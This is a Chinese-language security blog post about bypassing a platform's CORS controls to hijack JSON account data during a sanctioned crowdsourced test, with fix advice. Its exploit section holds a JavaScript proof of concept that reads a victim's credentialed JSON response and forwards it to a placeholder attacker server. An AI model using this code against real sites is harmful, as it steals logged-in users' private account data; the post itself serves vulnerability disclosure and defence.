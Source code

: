 ```yaml
---
layout:     post
title:      "记一次绕过CORS实现通用型json劫持经历"
subtitle:   " \"安全研究\""
date:       2018-01-27 11:35:25
author:     "y1r0nz"
header-img: "img/hack.jpg"
tags:
    - 安全研究
    - 渗透经历
---
```




#### 0x01 前言

 基于前端的安全访问控制在如今的安全问题中依然是影响力比较大的问题，针对网页的xss，csrf等安全漏洞也是大多数运营商比较头疼的问题。面对这些安全风险，大多数互联网金融机构站点对访问服务端的用户采取了相应的跨域访问控制的措施，比如httponly、指定access-control-origin-allow合法域名访问名单，从而从用户端到服务端基本实现CSP。但是一些机构在实施这些措施的过程中并没有严格按照访问控制策略进行实现，导致一些同源策略能够比较轻松的绕过，使得恶意用户能够利用这种方式进一步窃取合法用户的敏感信息、造成更大规模的钓鱼事件，严重影响了运营商的正常运作。

恰好这几天项目组有个众测的项目，在还没有深入对平台进行安全测试之前，结合之前freebuf上有人发的一篇CORS绕过的[文章](http://www.freebuf.com/news/160917.html)，测了下这个平台有关跨域的安全访问控制的策略，发现的问题还确实很多。之前这个平台做的访问控制就像一个纸老虎，根本起不了任何作用，这让我感到一丝的不安。

#### 0x02 几个小问题

* POST与GET请求可以任意相互转换

  在没有发现更大的影响规模的时候，这个问题其实很鸡肋，领导和开发可能根本不会去重视。但是，这个问题所能够延伸出来的其它比较严重的安全问题却多种多样。举一个例子：假如攻击者可以随意转换get和post请求数据，已经对csrf这种跨站伪造漏洞大开了方便之门，他们无需花更多的经历去诱使受害用户提交post请求，只需要在页面标签中引入src属性，便能够轻松对受害用户账户和进行攻击。

  ![post_get1](https://github.com/yangrz/blog/raw/gh-pages/img/post_get1.png)

  ![post_get2](https://github.com/yangrz/blog/raw/gh-pages/img/post_get2.png)

* 非法控制Access-Control-Origin-Allow返回头

  Access-Control-Origin-Allow返回消息头是用来严格控制能够操纵请求的域名，请求所返回的信息只能在指定的合法域名中传输。很多情况下，大多数开发人员可能并不理解这个属性值的具体目的，直接从请求的origin属性中读取这个域名，使得服务端误以为这就是合法域名。另外，安全等级比较高的应用服务虽然严格控制了Access-Control-Origin-Allow返回头，但是开发人员并没有验证origin的合法性和有效性，攻击者仍然可以通过操纵origin头来绕过访问控制。

  ![access_control_origin_allow1](https://github.com/yangrz/blog/raw/gh-pages/img/access_control_origin_allow1.png)

  ![access_control_origin_allow2](https://github.com/yangrz/blog/raw/gh-pages/img/access_control_origin_allow2.png))

* 返回体敏感信息未加密

  多数服务端对返回的数据没有进行脱敏控制，攻击者通过跨域带外查询的方式一旦窃取这些数据将严重影响用户隐私信息。

  ![minganxinxi](https://github.com/yangrz/blog/raw/gh-pages/img/minganxinxi.png)

#### 0x03 Combo利用，实现json劫持

在分析完应用本身存在的漏洞利用环境之后，真正实现json劫持攻击的还需要以下两个现实条件：

* 受害者登陆受害网站平台，拥有查询账户信息权限
* 攻击者能够欺骗受害者访问伪造页面

拥有以上的所有条件，我们就可以完全实现窃取受害者账户信息了。

1. 在观察数据包交互的过程中，我发现请求体中大量的查询账户信息操作，而且这些操作都存在上节所描述的三个基本问题。验证就不放图了，上节都有。

2. 在攻击者远程服务器上精心伪造页面，页面代码模板可能是按照如下代码去实现的：

   ```javascript
   <!DOCTYPE html>
   <html>
   <head><title>xxxx CORs Poc</title></head>
   <body>
   <center>
   <h2>xxxx CORs POC</h2>
   <button type="button" onclick="cors()">Poc</button>
   </div>
   <script>
     function cors(){
       var xhttp = new XMLHttpRequest();
       xhttp.onreadystatechange = function() {
         if(this.readyState == 4 && this.status == 200) 
         {
           document.location='http://你的服务器地址:远程监听端口号?'+escape(this.responseText);
         }
       };
       xhttp.open('GET','https://你发现的查询敏感json数据的get请求接口',true);
       xhttp.withCredentials = true;
       xhttp.send();
     }
   </script>
   ```

3. 诱使受害用户访问伪造页面，在远程服务器就可以监听用户访问请求

   ![nc_listening](https://github.com/yangrz/blog/raw/gh-pages/img/nc_listening.png)

#### 0x04 修复建议&总结

针对json劫持这一类问题，可能在网站平台建立初期特别容易出现，这要求开发人员深入理解跨域和同源策略，并能够采取多样的手段避免这种问题发生。在通常情况，不考虑具体业务情况下，有如下最有效几种通用修复方案：

1. 在开启access-control-origin-allow消息头情况下，强烈建议在服务端验证origin有效性与合法性。
2. 针对每次查询请求添加随机token值，并在服务端进行有效验证，防止查询敏感信息请求的滥用。
3. 在必要情况下使用验证码查询这种方式，但是会影响用户体验。
4. 开启referer验证；服务端可以验证请求referer有效性，防止请求伪造。

总而言之，我们虽然不能够保证我们的应用服务百分之百的绝对安全，但是能够最大限度的针对具体业务免受安全威胁是目前大部分企业或者运营商建立应用服务安全架构的首要目标。

#### 0x05 相关文献

1. [http://www.freebuf.com/news/160917.html](http://www.freebuf.com/news/160917.html) 《挖洞经验 | 看我如何利用两个漏洞实现雅虎邮箱通讯录信息获取》
2. [http://www.freebuf.com/articles/web/158529.html](http://www.freebuf.com/articles/web/158529.html) 《挖洞经验 | 看我如何绕过Yahoo！View的CORS限制策略
3. [http://www.ruanyifeng.com/blog/2016/04/cors.html](http://www.ruanyifeng.com/blog/2016/04/cors.html) 《跨域资源共享 CORS 详解》
4. [http://www.vuln.cn/6773](http://www.vuln.cn/6773) 《利用JSONP进行水坑攻击》